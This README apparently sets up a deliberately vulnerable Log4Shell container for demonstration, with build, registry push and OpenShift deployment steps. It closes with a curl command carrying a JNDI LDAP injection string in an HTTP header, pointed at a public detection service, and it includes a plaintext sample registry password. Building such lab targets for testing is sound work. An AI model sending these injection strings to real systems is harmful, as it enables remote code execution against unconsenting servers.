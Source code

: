 # Log4shell vulnerable image

## Build

Compile sources.

```sh
(cd src && ./mvnw package -DskipTests=true)
```

Package the container image.

```sh
buildah build -t vulnerable-log4j:latest .
```

Push the image to the registry of your choice.

```sh
podman tag localhost/vulnerable-log4j:latest registry.itix.xyz/vulnerable/vulnerable-log4j:latest
podman push registry.itix.xyz/vulnerable/vulnerable-log4j:latest
```

## Usage

```sh
podman run -d -p 8080:8080 --rm --name vulnerable-log4j vulnerable-log4j:latest
export TARGET=http://localhost:8080/
```

```
sh-4.1# curl "$TARGET" -H "X-Name: Nicolas"
Hello, Nicolas!
sh-4.1# curl "$TARGET"
Hello, World!
```

## Deployment

```sh
oc apply -f openshift/
oc project vulnerable-log4j
oc create secret docker-registry itix-registry --docker-server=registry.itix.xyz --docker-username=admin --docker-password=s3cr3t --docker-email=nmasse@redhat.com
oc secrets link default itix-registry --for=pull
```

## Exploit

Find the URL of the vulnerable container.

```sh
export TARGET="https://$(oc get route settlement-app -n vulnerable-log4j -o jsonpath="{.spec.host}")/"
```

Go to https://log4shell.huntress.com/ and pass the generated string in the `X-Name` HTTP header.

```sh
curl "$TARGET" -H 'X-Name: ${jndi:ldap://log4shell.huntress.com:1389/e597d75d-1851-4133-9a08-d5dfd7e04264}'
```
